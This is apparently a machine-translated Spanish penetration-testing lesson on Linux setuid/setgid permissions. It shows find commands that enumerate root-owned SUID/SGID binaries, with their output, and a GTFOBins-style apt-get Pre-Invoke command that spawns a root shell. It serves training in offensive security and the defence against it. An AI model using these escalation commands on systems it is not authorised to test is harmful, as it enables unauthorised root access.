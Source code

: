 # Permisos especiales

---

El`Set User ID upon Execution` (`setuid`) El permiso puede permitir que un usuario ejecute un programa o script con los permisos de otro usuario, generalmente con privilegios elevados. El`setuid`bit aparece como un`s`.

  Permisos especiales

```shell-session
xnoxos@htb[/htb]$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 16728 Sep  1 19:06 /home/htb-student/shared_obj_hijack/payroll
-rwsr-xr-x 1 root root 16728 Sep  1 22:05 /home/mrb3n/payroll
-rwSr--r-- 1 root root 0 Aug 31 02:51 /home/cliff.moore/netracer
-rwsr-xr-x 1 root root 40152 Nov 30  2017 /bin/mount
-rwsr-xr-x 1 root root 40128 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 27608 Nov 30  2017 /bin/umount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 428240 Jan 18  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-sr-x 1 root root 240 Feb  1  2016 /usr/bin/facter
-rwsr-xr-x 1 root root 39904 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 75304 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54256 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 10624 May  9  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 1588768 Aug 31 00:50 /usr/bin/screen-4.5.0
-rwsr-xr-x 1 root root 94240 Jun  9 14:54 /sbin/mount.nfs
```

Puede ser posible ingeniería inversa del programa con el conjunto de bits setuid, identificar una vulnerabilidad y explotar esto para aumentar nuestros privilegios. Muchos programas tienen características adicionales que se pueden aprovechar para ejecutar comandos y, si el`setuid`Bit se establece en ellos, estos se pueden usar para nuestro propósito.

El permiso Set-Group-ID (SETGID) es otro permiso especial que nos permite ejecutar binarios como si fuéramos parte del grupo que los creó. Estos archivos se pueden enumerar utilizando el siguiente comando:`find / -uid 0 -perm -6000 -type f 2>/dev/null`. Estos archivos se pueden aprovechar de la misma manera que`setuid`binarios para aumentar los privilegios.

  Special Permissions

```shell-session
xnoxos@htb[/htb]$ find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
```

Este[recurso](https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits)tiene más información sobre el`setuid`y`setgid`bits, incluyendo cómo establecer los bits.

---

## Gtfobinas

El[Gtfobinas](https://gtfobins.github.io/)Project es una lista curada de binarios y scripts que un atacante puede utilizar para evitar restricciones de seguridad. Cada página detalla las características del programa que se pueden usar para salir de capas restringidas, privilegios intensos, engendrar conexiones de shell inversa y transferir archivos. Por ejemplo,`apt-get`Se puede usar para salir de entornos restringidos y generar un shell agregando un comando previo a la invocación:

  Permisos especiales

```shell-session
xnoxos@htb[/htb]$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
```

Vale la pena familiarizarnos con tantas gtfobinas como sea posible para identificar rápidamente las configuraciones erróneas cuando aterrizamos en un sistema que debemos aumentar nuestros privilegios para avanzar aún más.